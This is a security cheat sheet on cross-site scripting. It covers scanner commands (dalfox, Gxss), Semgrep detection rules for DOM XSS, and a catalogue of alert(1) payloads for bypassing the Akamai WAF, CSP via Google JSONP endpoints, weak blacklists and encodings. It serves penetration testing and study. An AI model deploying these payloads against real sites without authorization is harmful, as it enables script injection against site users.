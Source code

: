 # XSS

```
# https://github.com/hahwul/dalfox
dalfox url http://example.com
cat urls | dalfox pipe -  --skip-bav --skip-mining-all
```

Find reflected parameters that could lead to XSS with Gxss

```
# https://github.com/KathanP19/Gxss
cat list | Gxss -c 100 -p REPLACE_STRING
```

## Semgrep

Semgrep can be used to detect sink and sources and assist in XSS detection.

### Usage

Download javascript files and beautify them (See [Javascript](https://caon.io/docs/exploitation/javascriptfiles/#download)), then run semgrep with

```
semgrep -c xss.yaml scripts/*
```

> **Hold down!**
> 
> Javascript files must be beautified, otherwise semgrep will no work properly.

```yaml
rules:
  - id: domxss-insertAdjacentHTML
    languages:
      - javascript
      - typescript
    message: Found dangerous HTML output
    pattern-either:
      - pattern: document.location.search = ...
      - pattern: document.location.hash = ...
      - pattern: document.location.pathname = ...
      - pattern: window.location.search = ...
      - pattern: window.location.hash = ...
      - pattern: window.location.pathname = ...
      - pattern: document.URL = ...
      - pattern: document.documentURI = ...
      - pattern: document.baseURI = ...
      - pattern: document.cookie = ...
      - pattern: document.referrer = ...
      - pattern: $X.insertAdjacentHTML(...)
      - pattern: $X.innerHTML(...)
      - pattern: $X.innerHTML = ...
      - pattern: eval(...)
      - pattern: execScript
      - pattern: script.src = ...
      - pattern: iframe.src = ...
      - pattern: document.location = ...
      - pattern: window.location = ...
      - pattern: document.location.href = ...
      - pattern: window.location.href = ...
      - pattern: document.write(...)
      - pattern: document.writeln(...)
      - pattern: $X.outerHTML = ...
      - pattern: $X.outerHTML(...)
    severity: WARNING
```

```yaml
rules:
  - id: domxss-insertAdjacentHTML
    languages:
      - javascript
      - typescript
    message: Found dangerous HTML output
    mode: taint
    pattern-sources:
      - pattern: document.location.search
      - pattern: document.location.hash
      - pattern: document.location.pathname
      - pattern: document.location.href
      - pattern: document.location
      - pattern: window.location
      - pattern: window.location.href
      - pattern: window.location.search
      - pattern: window.location.hash
      - pattern: window.location.pathname
      - pattern: document.URL
      - pattern: document.documentURI
      - pattern: document.baseURI
      - pattern: document.cookie
      - pattern: document.referrer
    pattern-sinks:
      - pattern: $X.insertAdjacentHTML(...)
      - pattern: $X.innerHTML(...)
      - pattern: $X.innerHTML = ...
      - pattern: eval(...)
      - pattern: execScript
      - pattern: script.src = ...
      - pattern: iframe.src = ...
      - pattern: document.location = ...
      - pattern: window.location = ...
      - pattern: document.location.href = ...
      - pattern: window.location.href = ...
      - pattern: document.write(...)
      - pattern: document.writeln(...)
      - pattern: $X.outerHTML = ...
      - pattern: $X.outerHTML(...)
    severity: WARNING
```

## Markdown

Markdown parsers can lead to XSS

- [https://swarm.ptsecurity.com/fuzzing-for-xss-via-nested-parsers-condition/](https://swarm.ptsecurity.com/fuzzing-for-xss-via-nested-parsers-condition/)

## Bypasses

Try to encode characters with unicode to achieve WAF bypass

alert(1) would become ale\u{72}t(1\x29, where

\u{72} is unicode to r \x29 is unicode to )

#### Akamai Bypass

Sometimes works:

```
"><a/\test="%26quot"href=%27javascript:/**/;\ale\u{72}t(11111\x29");%27>Click
"><a/\test="%26quot;x%26quot;"href=%27javascript:/**/;location.assign("google.com")%27>Click</a>
```

#### CSP Bypass
###### Common CSP Directives

- `script-src`: allowed origins for scripts
- `style-src`: allowed origins for stylesheets
- `img-src`: allowed origins for images
- `object-src`: allowed origins for objects such as `<object>` or `<embed>`
- `connect-src`: allowed origins for HTTP requests from scripts. For instance using `XMLHttpRequest`
- `default-src`: fallback value if a different directive is not explicitly set. For instance, if the `img-src` is not present in the CSP, the browser will use this value instead for images
- `frame-ancestors`: origins allowed to frame the page, for instance in an `<iframe>`. This can be used to prevent `Clickjacking` attacks
- `form-action`: origins allowed for form submissions

If the site has google whitelisted, the following could be used:

```
www.google.com/complete/search?client=chrome&q=1&jsonp=alert(1)//
accounts.google.com/o/oauth2/revoke?callback=alert(1)
```

#### Safari

```
javascript://trusted.example.com/%0Aalert()
```

#### Weak Blacklists

- Casing: `<ScRiPt>alert(1);</ScRiPt>`
- Casing: `<object data="JaVaScRiPt:alert(1)">`
- Casing: `<img src=x OnErRoR=alert(1)>`
- No Space: `<svg/onload=alert(1)>`

#### JavaScript Encodings

- Unicode: `"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"`
- Octal: `"\141\154\145\162\164\50\61\51"`
- Hex: `"\x61\x6c\x65\x72\x74\x28\x31\x29"`
- Base64: `atob("YWxlcnQoMSk=")`

#### String Creation

- fromCharCode: `String.fromCharCode(97,108,101,114,116,40,49,41)`
- source: `/alert(1)/.source`
- URL Encoding: `decodeURI(/alert(%22xss%22)/.source)`

#### Execution Sinks:

- eval: `eval("alert(1)")`
- setTimeout: `setTimeout("alert(1)")`
- setInterval: `setInterval("alert(1)")`
- Function: `Function("alert(1)")()`
- constructor: `[].constructor.constructor(alert(1))()`
# Cool resources

| URL                                                                                                                                                                    | Description          |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------- |
| [https://xss.pwnfunction.com/](https://xss.pwnfunction.com/)                                                                                                           | pwnfunction XSS game |
| [https://github.com/s0md3v/MyPapers/tree/master/Bypassing-XSS-detection-mechanisms](https://github.com/s0md3v/MyPapers/tree/master/Bypassing-XSS-detection-mechanisms) | Bypass Mechanisms    |
| [https://htmlparse.hackaplaneten.se/](https://htmlparse.hackaplaneten.se/)                                                                                             | Parser Issues        |